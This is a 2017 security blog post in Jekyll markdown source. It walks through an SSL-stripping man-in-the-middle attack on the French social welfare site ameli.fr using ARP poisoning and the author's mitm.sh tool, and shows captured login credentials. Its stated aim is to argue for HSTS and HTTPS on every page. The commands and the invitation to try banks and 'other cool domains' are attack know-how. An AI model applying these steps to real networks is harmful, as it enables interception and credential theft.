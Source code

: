 ```yaml
---
layout: post
title:  "MITM, HSTS, and plain HTTP landing page in practice"
date:   2017-03-27
categories: mitm
---
```

<br />
Hi everybody,  
  
I already wrote some articles talking about the importance of implementing the HTTP Strict Transport Security ([HSTS](https://https.cio.gov/hsts/)) and to secure all the webpages, even the landing page.  
  
**Why all the pages should be secure ?**  
  
Because all the trafic should be hidden from prying eyes. If an attacker could interfer with only one page, several options are available to him. He can strip all secure headers, redirect trafic, change web page content, force HTTP trafic, and so on.  
Every case is different but keep in mind that if the victim is able to generate a plain HTTP request (http://website.com), the attacker can control all the trafic.  
  
However, if a ressource has been cached with HSTS, the browser will automatically do an internal redirect (Code 307).  
But what if HSTS has never been cached ? so we will be able to fool a victim an maintain an plain text connection as we will see (we won't deal with any certificate faking here.  
  
In our example we will do a **MITM** attack between a Kali VM and the [french social welfare website](http://ameli.fr). You can find so many other websites, even some online bank websites to reproduce the attack.  
MITM attacks still succeed if you are not protected with some soft/hardware dropping unsolicited ARP responses ([RFC 826](https://tools.ietf.org/html/rfc826)).  
  
So stop talking, go for the show:  
![pic1]({{ site.url }}/public/images/mitm-example/pic1.png)  
  
We have here a non-secure HTTP landing page. What happens if we click on *"Mon compte ameli"* in order to log in ?  
![pic2]({{ site.url }}/public/images/mitm-example/pic2.png)  
  
So we have a secure login page.  What about the response headers ?  
![pic3]({{ site.url }}/public/images/mitm-example/pic3.png)  
  
Another check:  
  
```bash
root@kali:/tmp$ nmap -p 443 --script http-hsts-verify assure.ameli.fr 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-27 20:08 CEST
Nmap scan report for assure.ameli.fr (93.174.145.36)
Host is up (0.016s latency).
PORT    STATE SERVICE
443/tcp open  https
| http-hsts-verify: 
|_  HSTS is not configured.

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
  
I created a wrapper [script](https://github.com/phackt/mitm) to manage all the tools involved in the MITM attack. My advice is to run it on a Kali machine. However it will automatically download the web proxy that we will use ([Mitmproxy](https://mitmproxy.org/)).  
  
```bash
root@kali:/tmp$ git clone https://github.com/phackt/mitm.git && cd ./mitm
Clonage dans 'mitm'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (34/34), done.
remote: Total 49 (delta 15), reused 35 (delta 9), pack-reused 0
Dépaquetage des objets: 100% (49/49), fait.
root@kali:/tmp/mitm$ sudo ./mitm.sh
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
  
We are almost ready for our mitm attack. We will specify the interactive mode (mitmproxy GUI), the capture HTTP traffic mode only (not faking certificates) and we will apply our custom **sslstrip.py** script.  
  
If you check the **bin** folder, you will find these tools:  
 - **arpoison.sh** to automate ARP poisoning  
 - **chk_poison.py** which will check if an ARP poisoning is successful  
  
First let's check the ips:  
  
```bash
root@kali:/tmp/mitm# route -n
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
root@kali:/tmp/mitm# nmap -sn 192.168.1.1/24
...
Nmap scan report for kali.home (192.168.1.19)
Host is up (0.00012s latency).
...
```  
  
Now run mitm.sh  
  
```bash
root@kali:/tmp/mitm# ./mitm.sh -g -n -x -i wlan0 192.168.1.1 192.168.1.19
INTERACTIVE_MODE On
HTTP_INTERCEPTION On
HTTPS_STRIPPING On

Installing mitmproxy v1, please wait...

--2017-03-27 20:49:08--  https://github.com/mitmproxy/mitmproxy/releases/download/v1.0/mitmproxy-1.0.0post1-linux.tar.gz
Résolution de github.com (github.com)… 192.30.253.113, 192.30.253.112
Connexion à github.com (github.com)|192.30.253.113|:443… connecté.
requête HTTP transmise, en attente de la réponse… 302 Found
Emplacement : https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream [suivant]
--2017-03-27 20:49:08--  https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream
Résolution de github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)… 54.231.114.227
Connexion à github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)|54.231.114.227|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 70081542 (67M) [application/octet-stream]
Sauvegarde en : « /tmp/mitm/mitmproxy/mitmproxy.tar »

/tmp/mitm/mitmproxy/mitmproxy.tar     100%[=======================================================================>]  66,83M  4,94MB/s    in 14s     

2017-03-27 20:49:23 (4,82 MB/s) — « /tmp/mitm/mitmproxy/mitmproxy.tar » sauvegardé [70081542/70081542]

mitmproxy
mitmdump
mitmweb

Installation done.

Flushing iptables...
Setting configuration...
No poisoning between 192.168.1.1 -> 192.168.1.19
Do you want to force poisoning? [Yn]:Y
Trying DHCP REQUEST to poison 192.168.1.1...
no answer
Poisoning successful!!!
```  
  
**chk_poison.py** can try to force poisoning (works on Orange Livebox) by sending a spoofed DHCP request. The router will automatically generate ARP request after that and will legitimate our spoofed ARP responses.  
  
So now we are definitely ready to intercept the trafic.  
![pic4]({{ site.url }}/public/images/mitm-example/pic4.png)  
  
Now imagine that the victim is surfing on http://www.ameli.fr.  
![pic5]({{ site.url }}/public/images/mitm-example/pic5.png)  
  
We see the trafic passing through the attacker machine.  
From the victim's point of view, everything seems transparent... but notice a detail:  
![pic6]({{ site.url }}/public/images/mitm-example/pic6.png)  
  
*https://assure.ameli.fr* became *http://assure.ameli.fr*.  
Our script will know that it will have to replay the secure connection on the other side. Now when our victim wants to access the login page:  
![pic7]({{ site.url }}/public/images/mitm-example/pic7.png)  
  
Everything seems ok, except.... Where is the green padlock ![padlock]({{ site.url }}/public/images/mitm-example/padlock.png) ???  
So here we are, **sslstrip.py** has done its job, switching every https links into http, deleting every secure headers (HSTS too, so if not cached, the attack will succeed). The script will remind what domains need SSL/TLS and replay the connections in a secure manner with the destination website.  

So we have **Victim <- HTTP -> Attacker (Mitmproxy) <- HTTPS -> Website**.  We can now intercept all the trafic in clear.  
  
Don't be impatient, the victim will log in a few seconds.  
![pic8]({{ site.url }}/public/images/mitm-example/pic8.png)  
  
In our proxy we can see the post request. Let's check the details:  
![pic9]({{ site.url }}/public/images/mitm-example/pic9.png)  
  
Credentials have been stolen.  
And from our victim, is this transparent ?:  
![pic10]({{ site.url }}/public/images/mitm-example/pic10.png)  
  
A lot of people will not notice that the connection is not secure (except you infosec ninjas) and will keep on surfing.  
So since you are clicking on http://banksite.com, if HSTS has not been cached for the domain banksite.com (best to use the preload list), you can keep plain connection because our proxy will strip the redirection to **https**://banksite.com into **http**://banksite.com and will act as we just seen above.  
  
Is it really much more expensive to have all the pages secure ? [HSTS](https://tools.ietf.org/html/rfc6797) is also just one header in the response and can easily be added. Companies should also think to have their domain in the preload list in order to perform a 307 internal redirect from the very first request.  
Finally we can not talk here about vulnerability, but more as a lack of responsability.   
  
You also can play with the other options of **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```
  
N.B: i contacted the webmaster i will let you know.  
  
I sincerely hope you enjoyed this post as i liked to do it.  
Feel free to comment if you have any question, or if you find other cool domains.  
  
Tchuss,  
Phackt.  
  
References:
 - [https://github.com/phackt/mitm](https://github.com/phackt/mitm)  
 - [https://nmap.org/nsedoc/scripts/http-hsts-verify.html](https://nmap.org/nsedoc/scripts/http-hsts-verify.html)  
 - [https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet)  

